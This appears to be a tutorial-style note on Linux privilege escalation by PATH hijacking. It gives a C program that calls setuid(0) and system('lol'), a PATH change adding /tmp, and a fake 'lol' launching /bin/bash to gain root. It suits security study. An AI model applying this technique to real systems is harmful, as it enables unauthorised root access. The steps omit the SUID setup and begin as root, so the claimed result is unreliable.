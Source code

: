 If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

Typically the PATH will look like this:
```
root@ubuntu:/home/elgazzar/tools# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

If we type “lol” to the command line, these are the locations Linux will look in for an executable called lol. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.

1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?

>the main idea is creating a compileable script runnig spasfic command (ex, lol) and modify the ```PATH``` variable to include our directory that contain our compileable script that runnig our command (lol).

STEPS
--
1. Creat our script `path.c`:
```
#include <unistd.h>
void main(){
  setuid(0);
  setgid(0);
  system("lol");
}
```
2. In order to make it excutable:
```
gcc path.c -o path -w
chmod +x path
```
>NOTE >>> if we write ```lol``` in the terminal, we will get an error indicating the command not found.

3. We add a writable directory within the `PATH` variable (for example, ```/tmp```)
```
export PATH=$PATH:/tmp
```
So the PATH variable will look like this:
```
root@ubuntu:/home/elgazzar/tools# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/tmp
```

4. Go to the `/tmp` to creat our file named `lol` and add to it `/bin/bash`:
```
$ cat lol
/bin/bash
```
5. Go to the excutable ```path``` file and run it:
```
./path
```
Finally, we got the root access.










